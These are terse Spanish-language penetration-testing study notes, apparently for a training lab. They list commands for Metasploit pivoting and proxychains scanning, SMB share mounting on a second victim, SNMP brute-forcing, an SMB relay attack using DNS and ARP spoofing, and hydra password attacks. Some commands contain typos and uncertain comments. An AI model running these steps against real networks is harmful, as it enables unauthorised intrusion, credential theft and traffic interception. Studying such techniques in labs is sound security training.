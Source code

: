 	Se verifica que pueda hacer ping a la otra maquina a la cual se va apivotear
	
	msf> run autoroute -s IP/24 -Agrega toda la subred
	nano /etc/proxychains4.conf -Donde esta "socks4 127.0.0.1 9050"
	search socks_proxy
	set VERSION 4
	set SRVPORT 9050 --Puerto del Proxy configurado
	netstat -antp -Se verifica que el puerto esta escuchando
	
	proxychains nmap IP -sTV -Pn -n -p445 -Se envia el escaneo a travez de la victima 1
	net view IPVictima2
	
	meterpreter> migrate -N explorer.exe
	shell
	net view IPVictima 2 --Permite ver los recursos compartidos
	net use D: \\IPVictima2\Documents
	net use K: \\IPVictima2\K$ -yA QUE SON DISCOS
	dir D: o dir K:	
	



Pentest SNMP - Es un servicio que gestiona y monitorea dispositivos de red - Obtiene informacion y alertas de fallos

	nmap -sUV -p 161 --script=snmp-brute IP - Enumera comunidades
	snmpwalk -v 1 -c public IP -Descarga todos los datos o mejor usar --script=snmp*	
	Puede entregar mucha informacion, incluso usuarios con los cuales podriamos intentar autenticarnos en otros servicios (smb) con hydra
	

SMB Relay Attack
	msf> smb_relay
	SRVHOST MiIP
	LHOST MiIP
	SMBHOST IPVictica

	echo "172.16.5.101 *.sportsfod" >dns -Luego se crea un archivo DNS simple que siempre apunte a nuestra IP
	dnsspoof -i eth1 -f dns -Se carga el archivo y se hace un DNS Spoofing
	
	echo 1 > /proc/sys/net/ipv4/ip forward -No recuerdo para que es
	arpspoof -i eth1 -t 172.16.5.5 172.16.5.1 - Se suplantara el ARP de la primera IP y la puerta de enlace es la segunda IP
	exploit


_________
hydra -l bob -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 
search http_login (AUTH_URI)
target1.ine.local http-get /
dirb http://target1.ine.local -u bob:password_123321
cadaver
dir C:\
type C:\flag2.txt

_________
search apache cgi
